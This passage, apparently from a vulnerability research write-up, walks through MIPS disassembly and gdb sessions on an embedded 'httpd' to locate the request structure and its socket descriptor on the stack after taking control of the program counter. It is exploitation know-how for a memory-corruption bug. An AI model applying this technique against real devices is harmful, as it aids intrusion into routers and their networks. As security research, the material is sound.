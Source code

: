 Fortunately one of the inner calls store ``s7`` in the stack! The following
diagram tries to explain the concept

```
void writePageParamSet(request_t *req,char *fmt,char *value)
 lui                a1,0x54
 addiu              a1=>s_"%s",_00544d38,a1,0x4d38                   = "\"%s\","
 lw                 t9,-0x5694(gp)=>->writePageParamSet              = 0043bba0
 move               a0,s7
 addiu              a2,sp,0xcc
 jalr               t9=>writePageParamSet
    int stringModify(char *dst,size_t size,char *src)
    int httpPrintf(request_t *req,char *fmt,...)
        addiu              sp,sp,-0x28
        lw                 a0,0x34(a0) ; a0 = req->socket

        int wmnetSocketVprintf(int fd,char *fmt,va_list vaList,int *nWrite)
            addiu              sp,sp,-0x20

            int vfdprintf(int fd,char *fmt,va_list list)
             addiu              sp,sp,-0x210
             sw                 ra,0x20c(sp)
             sw                 s8,0x208(sp)
             sw                 s7,0x204(sp)
             sw                 s6,0x200(sp)
```

Since is all deterministic, we can add the offsets and find out where the
``req`` address is stored, i.e. ``-0x480 + 0x204`` bytes from where the stack
pointer is when we control the ``pc`` register; Let me double check
with ``gdb`` in a running instance:

```
(gdb) print/x 0x228 + 0x28 + 0x20 + 0x210
$4 = 0x480
(gdb) x/10xw (int*)($sp - 0x480 + 0x204)
0x7d3fead4:     0x0064c804      0x7d3fedf8      0x0050cf0c      0x00544d3d
0x7d3feae4:     0x00000000      0x7d3fed44      0x0000000e      0x00594d80
0x7d3feaf4:     0x0051fc64      0x7d3fee1c
```

``0x0064c804`` indeed is a value of memory located in the **heap**;
now we can add the offset to reach the ``socket`` variabile inside ``req``

```
(gdb) x/xw (*(int*)($sp - 0x480 + 0x204) + 0x34)
0x64c838:       0x0000000e
```

To double check that this file descriptor makes sense we can dig more information
inside the ``/proc`` pseudo filesystem

```
(gdb) info proc
process 25517
cmdline = 'httpd'
cwd = '/tl-rootfs/tmp'
exe = '/tl-rootfs/usr/bin/httpd'
(gdb) shell ls -al /proc/25517/fd
fd/     fdinfo/
(gdb) shell ls -al /proc/25517/fd/
total 0
dr-x------ 2 root root  0 Jan 21 09:05 .
dr-xr-xr-x 6 root root  0 Jan 21 06:03 ..
lrwx------ 1 root root 64 Jan 21 09:21 0 -> /dev/ttyS0
lrwx------ 1 root root 64 Jan 21 09:21 1 -> /dev/ttyS0
lrwx------ 1 root root 64 Jan 21 09:21 10 -> socket:[3149]
lr-x------ 1 root root 64 Jan 21 09:21 11 -> /tl-rootfs/tmp/pipe_mud80
```